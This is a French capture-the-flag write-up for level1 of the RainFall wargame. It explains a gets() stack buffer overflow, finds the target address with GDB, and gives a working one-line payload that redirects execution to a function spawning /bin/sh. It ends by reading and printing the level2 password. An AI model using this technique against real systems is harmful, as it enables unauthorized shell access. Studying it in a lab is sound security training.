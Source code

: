 # Level1 : Exploitation de gets() pour un Accès Shell Non Autorisé

## Analyse du Binaire

Le programme `level1` contient une vulnérabilité simple de type *buffer overflow*. En examinant le code source :

```c
#include <stdio.h>

int main(void)
{
  /* Buffer de 76 octets alloué sur la pile (stack) */
  char buffer[76];

  /* gets() lit l'entrée depuis stdin SANS vérification de limite */
  gets(buffer);

  return 0;
}

void run(void)
{
  fwrite("Good... Wait what?\n", 1, 0x13, stdout);
  system("/bin/sh");
  return;
}
```

La vulnérabilité clé est l'utilisation de `gets()`, qui lit l'entrée utilisateur sans aucune limitation de taille dans un *buffer* de taille fixe. Pour cette raison, `gets` est intrinsèquement dangereuse et a été retirée de la norme C11.

## Explication de la Vulnérabilité

Cela crée une vulnérabilité de *buffer overflow* car :

1. Le tableau `buffer` ne fait que 76 octets de long.
2. `gets()` continuera de lire l'entrée au-delà de ces 76 octets.
3. Les données dépassant le *buffer* écraseront la mémoire adjacente sur la pile (*stack*).
4. Cela inclut l'écrasement de l'adresse de retour sauvegardée, nous permettant de détourner le flux d'exécution du programme.
5. En écrasant l'adresse de retour avec l'adresse de `run()`, nous pouvons rediriger l'exécution vers cette fonction, qui appelle `system("/bin/sh")`, nous donnant ainsi un *shell*.

## Localisation de la Fonction Cible

D'abord, nous utilisons GDB pour trouver l'adresse mémoire de la fonction `run()` :

```bash
level1@RainFall:~$ gdb -q ./level1
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```

Nous trouvons que `run()` est située à l'adresse `0x8048444`. Cette fonction sera notre cible puisqu'elle appelle `system("/bin/sh")`.

## Création de l'Exploit

Notre *exploit* doit :

1. Remplir le *buffer* de 76 octets.
2. Écraser l'adresse de retour avec l'adresse de `run()`.

### Comprendre le Format Little-Endian

Sur l'architecture x86 (utilisée par le binaire), les adresses mémoire sont stockées au format *little-endian*. Cela signifie que l'octet le moins significatif (*least significant byte*) est stocké à l'adresse mémoire la plus basse.

Pour notre adresse `0x08048444` :

- En *big-endian* : `08 04 84 44`
- En *little-endian* : `44 84 04 08`

Nous devons utiliser le format *little-endian* dans notre *payload* car c'est ainsi que le processeur interprétera les octets lors de la lecture de l'adresse de retour depuis la pile (*stack*).

### Analyse du Buffer Overflow avec GDB

La session GDB fournit des informations cruciales sur le fonctionnement de la vulnérabilité de *buffer overflow* dans le binaire `level1`. Décomposons ce que nous observons :

#### Analyse du Désassemblage

Le désassemblage montre :
```
(gdb) disas main
   0x08048486 <+6>:     sub    $0x50,%esp       # Alloue 80 octets sur la pile (stack)
   0x08048489 <+9>:     lea    0x10(%esp),%eax  # Le buffer commence 16 octets plus loin
   0x0804848d <+13>:    mov    %eax,(%esp)      # Passe l'adresse du buffer à gets()
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret                     # Instruction de retour
```
```
(gdb) b *0x08048496
Breakpoint 1 at 0x8048496 # Définit un point d'arrêt (breakpoint) à l'instruction de retour. Le programme arrêtera son exécution ici.
```

## Vérification de l'Exploit

```
level1@RainFall:~$ python -c 'print("A"*76 + "B"*4 + "C"*4 + "D"*4)' > /tmp/test
```

Nous avons créé un motif de :
- 76 caractères 'A' (pour remplir le *buffer*)
- 4 caractères 'B' (pour écraser l'adresse de retour)
- 4 caractères 'C' et 4 caractères 'D' (données de test supplémentaires)

Après avoir exécuté jusqu'à l'instruction `ret` :

```
(gdb) run < /tmp/test # Exécute le programme avec notre entrée de test
Starting program: /home/user/level1/level1 < /tmp/test

Breakpoint 1, 0x08048496 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff640:
 eip = 0x8048496 in main; saved eip 0x42424242
```

La valeur de **saved eip** est `0x42424242`, ce qui correspond au code ASCII pour "BBBB". Cela confirme :

1. Notre *buffer overflow* a réussi à écraser l'adresse de retour.
2. Le décalage (*offset*) est exactement de 76 octets (les 'B' commencent à la position 77).
3. L'adresse de retour est stockée à l'emplacement mémoire `0xbffff63c`.

## Construction de l'Exploit

Cela confirme que notre *exploit* nécessite :
- 76 octets de remplissage (*padding*).
- L'adresse de `run()` (`0x08048444`) au format *little-endian*.

Au lieu de retourner à l'adresse `0x42424242` (BBBB), nous pouvons la remplacer par `"\x44\x84\x04\x08"` pour rediriger l'exécution vers la fonction `run()`, qui fournira un *shell*.

La session GDB valide que notre commande d'*exploit* est correctement formatée :
```bash
(python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
```

Décomposons cela :

- `python -c '...'` : L'option `-c` permet d'exécuter du code Python directement depuis la ligne de commande.
- `print "A"*76` : Crée 76 caractères 'A' pour remplir le *buffer*.
- `"\x44\x84\x04\x08"` : La représentation *little-endian* de l'adresse de la fonction `run()`.
- `cat` sans arguments : Maintient `stdin` ouvert après l'envoi du *payload* de l'*exploit*.
- Redirection (`|`) de la sortie vers `./level1` : Fournit notre *payload* à l'`stdin` du programme.

### Pourquoi avons-nous besoin de `cat` ?

La commande `cat` est cruciale car :

1. Lorsque l'*exploit* réussit et que `system("/bin/sh")` s'exécute, le *shell* a besoin d'un `stdin` ouvert pour recevoir des commandes.
2. Sans `cat`, `stdin` se fermerait après l'envoi de l'*exploit*, provoquant la fermeture immédiate du *shell*.
3. Avec `cat`, `stdin` reste ouvert, nous permettant d'interagir avec le *shell* généré.

## Exploitation Réussie

Lorsque nous exécutons notre *exploit* :

```bash
level1@RainFall:~$ (python -c 'print "A"*76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
```

Nous voyons le message de la fonction `run()`, confirmant que notre *exploit* a fonctionné. Maintenant, nous pouvons récupérer le mot de passe :

```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Ce mot de passe nous permet de passer au `level2`.
